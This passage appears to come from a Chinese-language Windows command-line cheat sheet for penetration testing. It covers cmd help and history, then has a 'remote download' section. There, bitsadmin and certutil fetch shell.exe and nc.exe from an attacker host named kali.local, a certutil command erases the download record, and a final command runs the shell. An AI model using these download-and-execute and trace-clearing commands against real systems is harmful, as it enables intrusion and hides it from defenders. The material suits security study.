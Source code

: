 |   [WindowsTerminal](https://github.com/microsoft/terminal)   |

## 6. Usage

### 6.1. 查看帮助

```cmd
C:\Users\Administrator> [command] /?
```

### 6.2. 历史命令

查看历史命令

```cmd
C:\Users\Administrator> doskey /history
```

### 6.3. 远程下载

**bitsadmin**

使用 bitsadmin 下载文件

```cmd
C:\Users\Administrator> bitsadmin /transfer n http://kali.local/upload/shell.exe C:\Users\Administrator\shell.exe
```

```cmd
C:\Users\Administrator> bitsadmin /rawreturn /transfer getfile http://kali.local/upload/shell.exe C:\Users\Administrator\shell.exe
```

**certutil**

使用 certutil 下载文件

```cmd
C:\Users\Administrator> certutil -urlcache -split -f http://kali.local/upload/nc.exe C:\Users\Administrator\nc.exe
```

删除 certutil 下载记录

```cmd
C:\Users\Administrator> certutil -urlcache -split -f http://kali.local/upload/nc.exe delete
```

### 6.4. 程序

运行程序

```cmd
C:\Users\Administrator> start shell.exe
```

### 6.5. 修改编码
